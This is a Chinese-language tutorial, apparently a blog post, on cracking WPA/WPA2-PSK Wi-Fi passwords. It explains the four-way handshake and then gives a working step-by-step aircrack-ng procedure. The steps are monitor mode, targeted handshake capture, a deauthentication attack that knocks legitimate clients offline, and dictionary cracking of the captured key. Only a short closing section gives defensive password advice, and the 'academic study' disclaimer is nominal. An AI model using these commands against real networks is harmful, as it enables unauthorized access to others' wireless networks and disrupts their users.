 ## WiFi密码破解与防范

此教程为wifi无线密码破解攻略，建议以探讨学术和热爱网络技术为学习目标。 

## 1 WIFI破解原理

本章节主要介绍WIFI认证方式和认证具体过程，还有如何利用WIFI的认证再破解的基本原理。

### 1.1 wifi认证方式

1、不启用安全

2、WE

3、WPA/WPA2-PSK

4、WPA/WPA2 802.1X （radius认证）

一般我们设置主流的都是第三种。

具体在路由器的配置界面一般如下图所示：

![img](http://image.3001.net/images/20150204/14230352482243.png)

### 1.2 WPA-PSK的认证过程：

![img](http://image.3001.net/images/20150204/14230353336924.png)

> 1、无线AP定期发送beacon数据包，使无线终端更新自己的无线网络列表。
>
> 2、无线终端在每个信道（1-13）广播ProbeRequest（非隐藏类型的WiFi含ESSID，隐藏类型的WiFi不含ESSID）
>
> 3、每个信道的AP回应，ProbeResponse，包含ESSID，及RSN信息
>
> 4、无线终端给目标AP发送AUTH包。AUTH认证类型有两种，0为开放式、1为共享式（WPA/WPA2必须是开放式）
>
> 5、AP回应网卡AUTH包
>
> 6、无线终端给AP发送关联请求包associationrequest数据包 7、AP给无线终端发送关联响应包associationresponse数据包
>
> 8、EAPOL四次握手进行认证（握手包是破解的关键）
>
> 9、完成认证可以上网。

### 1.3 WPA-PSK认证四次握手认证的过程

![img](http://image.3001.net/images/20150204/1423035431460.png)

### 1.4 WPA-PSK破解原理

用我们字典中的PSK+ssid先生成PMK（此步最耗时，是目前破解的瓶颈所在），然后结合握手包中的客户端MAC，AP的BSSID，A-NONCE，S-NONCE计算PTK，再加上原始的报文数据算出MIC并与AP发送的MIC比较，如果一致，那么该PSK就是密钥。

如图所示：

![img](http://image.3001.net/images/20150204/142303547147.png)

## 2 WIFI破解过程

### 2.1 破解wifi实战

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop

```

```
airmon-ng check kill

```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig

```

或者

```
iwconfig

```

找到是否有wlan0无线网卡的，如果没有无线网卡请插入usb无线网卡。 如果是插入usb网卡请

```
ifconfig wlan0 up

```

加载无线网卡

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0

```

![img](http://image.3001.net/images/20150204/14230355012283.png)

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng mon0

```

查看周边路由AP的信息。

个人经验一般信号强度大于-70的可以进行破解，大于-60就最好了，小于-70的不稳定，信号比较弱。（信号强度的绝对值越小表示信号越强）

![img](http://image.3001.net/images/20150204/14230355329489.png!small) ![img](http://image.3001.net/images/20150204/14230355587380.png!small)

![img](http://image.3001.net/images/20150204/14230356574818.png!small)

**（5）. 选择要破解的WiFi，有针对性的进行抓握手包**

```
airodump-ng --ignore-negative-one -w  /tmp/test.cap-c 11 --bssid 40:16:9F:76:E7:DE mon0

```

参数说明：-w 保存数据包的文件名 –c 信道 –bssid ap的mac地址 (注意test.cap会被重命名)，也可以用其他工具抓包比如：wireshark、tcpdump，抓到握手包会有提示。

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

为了顺利抓到握手包，我们需要使用DEAUTH攻击使已经连接的客户端断开并重新连接，以产生握手包。（注意：抓握手包破解必须有合法的客户端才行。）

攻击命令如下

```
aireplay-ng -0 3 -a B8:A3:86:63:B4:06 -c 00:18:1a:10:da:c9 -x 200 mon0

```

参数说明：-0 Deautenticate 冲突模式 3 发包次数 -x 发包速度

![img](http://images.51cto.com/files/uploadimg/20110526/15005025.jpg)

如果攻击成功,airodump-ng捕获`handshake` ,此时可以ctrl+c终止airodump-ng抓包。

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng-w pass-haoyong.txt test-03.cap

```

参数解释：-w 字典路径

![img](http://image.3001.net/images/20150204/14230358365729.png!small)

如果字典中有对方的密码，那么经过一段时间就会破解成功，最终会出现 **FOUND KEY!**字样.

![img](http://images.51cto.com/files/uploadimg/20110526/15005029.jpg)

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```

### 2.2 有关WIFI安全建议

（1） 路由密码不要设置WEP方式加密的，因为WPA2-PSK的加密方式是不可逆的，但是wep确实可逆的，不论你设置的密码多么复杂，都会被秒破。

（2） 加密方式选择WPA2-PSK，密码不要设置常用面比如简单的123456aa这种。一般网上流传的密码字典会包括这种密码，所以很多常用字典可以轻易破解

（3）密码难度稍微复杂一些，长度不要局限8位，即可。

视频：http://pan.baidu.com/s/1hrY0qR6
资料链接：http://pan.baidu.com/s/1cecjZC 密码：rn7i
直播视频链接：
http://v.youku.com/v_show/id_XMTY3OTgyNjY2NA==.html 
